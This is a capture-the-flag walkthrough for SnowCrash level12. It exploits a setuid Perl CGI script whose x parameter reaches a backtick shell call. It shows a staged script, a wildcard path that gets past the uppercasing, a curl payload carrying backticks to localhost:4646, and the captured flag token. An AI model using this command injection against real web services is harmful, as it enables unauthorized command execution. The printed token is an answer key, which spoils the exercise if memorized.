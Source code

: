 We see file level12.PL:
```
level12@SnowCrash:~$ ls -la
[...]
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```
```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));

```
We see that you can inject the transfer as the parameter x to the command `getflag`.  
However, the contents of the x parameter will first be converted to capital letters,
and then removed everything that follows the space character.
```
n(t(param("x"), param("y")));
```
```
sub t {
[...]
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
[...]
```
Also, we cannot transfer only one command, since the output will not be shown to us,
so we must save the result of the command to a file. Also, for the command to be executed, it is necessary to enclose it in backticks.
```
level12@SnowCrash:~$ echo 'echo `getflag` > /tmp/output' > /tmp/GETFLAG
```
Because the script will run from another user, you need to give him rights
```
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
```
Since the entire path to the file will be converted to capital letters, we need to transfer it using wildcard.
We also need to refer to the server itself, from the commentary to the script we see the address of our server.
```
level12@SnowCrash:~$ curl 'localhost:4646?x="`/*/GETFLAG`"'
```
Now let's see the contents of the file:
```
level12@SnowCrash:~$ cat /tmp/output"'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
This is out token: `g1qKMiRpXf53AWhDaU7FEkczr`
